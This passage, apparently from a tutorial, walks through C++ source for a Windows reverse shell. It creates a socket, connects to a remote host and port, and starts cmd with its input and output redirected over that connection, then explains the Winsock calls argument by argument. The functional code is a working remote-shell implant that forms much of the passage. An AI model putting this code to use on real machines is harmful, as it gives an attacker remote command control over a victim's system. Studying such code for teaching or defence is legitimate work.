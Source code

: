 ```c
int WSAStartup_Result = WSAStartup(MAKEWORD(2,2), &wsaData);
if (WSAStartup_Result != 0) {
    std::cout << "[-] WSAStartup failed.";
    return 1;
}

// Call WSASocket()
SOCKET mysocket = WSASocketA(2, 1, 6, NULL, 0, NULL); 

// Create sockaddr_in struct
struct sockaddr_in sa;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(rem_host.c_str());
sa.sin_port = htons(rem_port);

// Call connect()
int connect_Result = connect(mysocket, (struct sockaddr*) &sa, sizeof(sa));
if (connect_Result !=0 ) {
    std::cout << "[-] connect failed.";
    return 1;
}

// Call CreateProcessA()
STARTUPINFO si;
memset(&si, 0, sizeof(si));
si.cb = sizeof(si);
si.dwFlags = (STARTF_USESTDHANDLES);
si.hStdInput = (HANDLE)mysocket;
si.hStdOutput = (HANDLE)mysocket;
si.hStdError = (HANDLE)mysocket;
PROCESS_INFORMATION pi;
CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

}
```

We'll break this down by function. 

### WSAStartup
[This function](https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup) initializes the utilization of the Winsock dll. Here we are giving it an argument of "2.2" as for the version to use, and we're also passing a reference to a `WSADATA` type variable `wsaData`. 

It returns a non-zero if it fails, so we've added some error handling to our program. 

### WSASocketA
[This function](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa) creates a socket. We give ours the arguments `2, 1, 6, NULL, 0, NULL`:
+ `2` == AF_INET (IPv4)
+ `1` == SOCK_STREAM (TCP)
+ `6` == IPPROTO_TCP (TCP)
+ `NULL` == no value for `lpProtocolInfo`
+ `0` == since we don't have an existing "socket group" 
+ `NULL` == no value for `dwFlags`
